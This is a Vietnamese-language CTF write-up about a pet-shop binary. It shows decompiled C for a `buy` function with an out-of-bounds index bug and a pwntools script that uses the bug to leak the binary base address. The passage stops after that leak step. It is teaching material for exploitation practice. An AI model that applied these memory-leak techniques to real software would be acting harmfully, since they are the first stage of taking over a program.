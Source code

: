 Tóm tắt hàm `info` như sau: 
- Parse input theo cấu trúc `info | option`
- Có 3 `option` để lựa chọn:
  - `dog`
  - `cat`
  - `mine`: In ra toàn bộ thông tin `pet_list` của mình

### Bug Out-off-Bound 

Ở hàm `buy`, ta nhận thấy rằng `pet_type_idx` có thể nhận giá trị âm, từ đó gây nên bug OOB. 

```c
int __fastcall buy(char *a1)
{
    int pet_type_idx; // [rsp+1Ch] [rbp-424h] BYREF
    if ( (unsigned int)__isoc99_sscanf(a1, "%3s %d", pet_type, &pet_type_idx) != 2 )
        goto LABEL_x52C;

    --pet_type_idx;

    if ( pet_type_idx <= 3 )                    // OOB
        pet_list[pet_count]->type = cats[pet_type_idx];
}
``` 

Tận dụng chức năng in ra toàn bộ thông tin `pet_list` của hàm `info`. Ta sẽ leak được các giá trị của binary và libc. 

#### Leak binary
Mua một bé mèo với cú pháp `buy cat 1`. Do idx sẽ bị trừ đi một, vậy nên em mèo của ta sẽ có tên ở địa chỉ `cats[0]`. 

<img src="./10.png">

Nhìn xung quanh các giá trị lân cận, ta thấy có giá trị `0x0000555555558008` là địa chỉ binary. Ta hoàn toàn leak được giá trị đó với `idx = -2`.  

```python
buy("cat", -2, cyclic(1020)) 
info("mine")

ru(b"1. ")

binary_leak = u64(p.recv(6) + b"\x00\x00")
binary_base = binary_leak - 0x4008
log.info(f"binary leak = {hex(binary_leak)}")
log.info(f"binary base = {hex(binary_base)}")
```

